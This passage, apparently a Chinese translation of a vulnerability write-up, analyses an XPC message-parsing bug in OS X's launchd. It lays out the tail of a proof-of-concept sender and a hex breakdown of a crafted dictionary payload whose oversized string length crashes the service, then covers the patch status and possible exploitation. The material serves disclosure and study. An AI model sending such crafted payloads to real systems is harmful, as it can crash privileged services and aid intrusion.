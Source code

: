 ```
        send_payload(payload, sizeof(payload));

        return(0);
}%

```

分析payload，我们可以看到：

```
21 43 50 58: Macing "!CPX"
05 00 00 00: Version 5
00 f0 00 00: Type 'dictionary'
5c 00 00 00: Size 0x5c
04 00 00 00: 4 entries
68 61 6e 64 6c 65 00 00: Key 'handle'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value 1
73 75 62 73 79 73 74 65 6d 00 00 00: Key 'subsystem'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value 1
61 00 00 00: Key 'a'
00 90 00 00: Type 'string' 
ff ff ff ff: Size 0xFFFFFFFF    ** TRIGGER CRASH **
61 00 00 00: Value 'a'
72 6f 75 74 69 6e 65 00: Key 'routine'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value '1'

```

苹果公司已经修复了这个bug的特殊的实例。但是在我审计到10.11之前我发现这个bug的类依然还是存在于最新的10.10中。在10.11中，苹果公司已经将用户空间的‘`mach_msg_send`’函数变为使用另一个在libxpc.dylib中的函数，该函数不需要使用`mach_msg_send`。我还没有在OS X 10.11+中找到任何的crash。

0x06 影响和利用
==========

* * *

看起来OSX IPC正在向所有的程序都使用XPC转移。虽然我没有测试在XPC进程内核的各个角落（我没有太努力寻找），但是就在OSX系统PID1进程launchd(类似于Linux里的init)中找到了这个bug。况且有很多的IPC服务以root权限运行，非特权用户都使用XPC来进行通信。所以如果这个bug可以被利用的话，将非常危险。

这个bug是一个任意向前读。从基础的理论证明来看，基本很难被利用（我的溢出利用技术很不足）。我所知道的一些理论：

*   也许可以利用这个bug来实现内存泄露，如果你可以建立一个堆使得offset成为一个XPC消息的key值，但是基本上还是会crash，因为它阻止了之后的序列化数据。
*   一些更加复杂的MACH消息包含更复杂的逻辑功能。比如端口的转移权限，文件描述符的拥有权限等。它们也可能存在有利用潜力的其他代码缺陷，可以导致crash。